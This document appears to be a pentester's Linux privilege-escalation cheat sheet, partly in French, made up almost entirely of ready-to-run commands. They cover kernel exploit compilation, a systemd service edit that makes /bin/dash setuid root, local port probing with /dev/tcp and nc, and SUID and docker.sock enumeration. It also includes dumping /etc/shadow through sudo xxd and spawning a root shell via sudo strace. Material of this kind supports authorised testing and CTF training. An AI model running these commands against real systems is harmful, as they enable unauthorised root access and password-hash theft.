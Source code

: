 # Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

Compile for x86 on a x64 machine

```bash
sudo apt update && sudo apt install gcc-multilib 
gcc -Wl,--hash-style=both -m32 <exploit.c>
```

Cross-Compile for Windows from Linux

```bash
i686-w64-mingw32-gcc <exploit.c>
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Docker**

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Hash dump**

```bash
sudo xxd /etc/shadow | xxd -r
```

---

## **Strace root**

```bash
sudo strace -o /dev/null /bin/sh
```

